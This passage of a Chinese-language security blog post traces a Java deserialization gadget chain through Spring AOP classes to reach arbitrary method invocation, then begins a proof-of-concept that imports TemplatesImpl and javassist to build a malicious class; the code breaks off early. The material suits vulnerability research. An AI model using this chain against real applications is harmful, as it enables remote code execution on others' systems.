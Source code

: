 我们可以发现，不管是那种方式添加进入`interceptorList`的，其所对应的成员往往是从`registry.getInterceptors(advisor);`来的

那这里我们顺藤摸瓜,registry所对应的类是`DefaultAdvisorAdapterRegistry`

![image-20250123225810812](https://tuchuang-1322176132.cos.ap-chengdu.myqcloud.com//imgimage-20250123225810812.png)

对应的getInterceptors代码如下

![image-20250123225924866](https://tuchuang-1322176132.cos.ap-chengdu.myqcloud.com//imgimage-20250123225924866.png)

那这里我们只有从第一个判断口进入才能够添加interceptors，不过要求是我们的advisor必须实现了MethodInterceotor接口,简单看了一下继承关系，和文章师傅里得出的结论一样：没有同时实现了该接口的advisor类

面对此种情况，我们使用了动态代理去将`MethodInterceotor`给advisor类代理上，使其实现双接口

这里又用到了一次`JdkDynamicAopProxy`,不过和前面的作用完全不同



然后这里就能够顺利return回我们想要的interceptors,chain也能执行到我们的proceed方法了

最后就是在我们的`org.springframework.aop.aspectj.AbstractAspectJAdvice.invokeAdviceMethodWithGivenArgs`中

```
this.aspectJAdviceMethod.invoke(this.aspectInstanceFactory.getAspectInstance(), actualArgs);
```

这里还要从aspectInstanceFactory中获取到一个方法类的实例,文章中是使用了`SingletonAspectInstanceFactory`这个类

![image-20250123232655590](https://tuchuang-1322176132.cos.ap-chengdu.myqcloud.com//imgimage-20250123232655590.png)

和CC里的ConstantTransformer很相似



## POC

```

import Utils.Util;
import com.fasterxml.jackson.databind.node.POJONode;
import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;
import javassist.ClassPool;
import javassist.CtClass;
import javassist.CtConstructor;
import org.aopalliance.aop.Advice;
import org.aopalliance.intercept.MethodInterceptor;
import org.springframework.aop.aspectj.AbstractAspectJAdvice;
import org.springframework.aop.aspectj.AspectJAroundAdvice;
import org.springframework.aop.aspectj.AspectJExpressionPointcut;
import org.springframework.aop.aspectj.SingletonAspectInstanceFactory;
import org.springframework.aop.framework.AdvisedSupport;
import org.springframework.aop.support.DefaultIntroductionAdvisor;
import org.springframework.core.Ordered;

import java.lang.reflect.*;
import java.util.PriorityQueue;

import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;

import javax.management.BadAttributeValueExpException;
import javax.xml.transform.Templates;

public class main {
    public static void main(String[] args) throws Exception {


        ClassPool pool = ClassPool.getDefault();
        CtClass clazz = pool.makeClass("a");
        CtClass superClass = pool.get(AbstractTranslet.class.getName());
```